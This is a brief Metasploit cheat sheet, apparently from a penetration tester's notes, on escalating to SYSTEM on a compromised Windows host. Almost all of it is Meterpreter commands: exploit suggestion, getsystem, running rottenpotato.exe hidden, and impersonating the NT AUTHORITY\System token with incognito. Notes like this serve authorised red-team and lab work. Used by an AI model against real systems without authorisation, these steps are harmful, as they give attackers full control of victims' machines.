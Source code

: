# Metasploit

## 01 - Enumerate

### 1.1 - Post Module

```
meterpreter > run post/multi/recon/local_exploit_suggester
```

### 1.2 - Interactive Shell

```
meterpreter > getuid

meterpreter > getprivs
```

## 02 - Exploit

### 2.1 - Getsystem

```
meterpreter > getsystem -t 5
```

### 2.2 - Interactive Shell

If service is not running as SYSTEM.

```
meterpreter > execute -Hcf rottenpotato.exe

meterpreter > load incognito

meterpreter > list_tokens -u

meterpreter > impersonate_token "NT AUTHORITY\System"
 ```

If service is running as Administrator.

```
meterpreter > list_tokens -u

meterpreter > impersonate_token "NT AUTHORITY\System"
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Vulnerable Software/Kernel Exploits/C2 Frameworks/Metasploit|Kernel Exploits: Metasploit Framework]]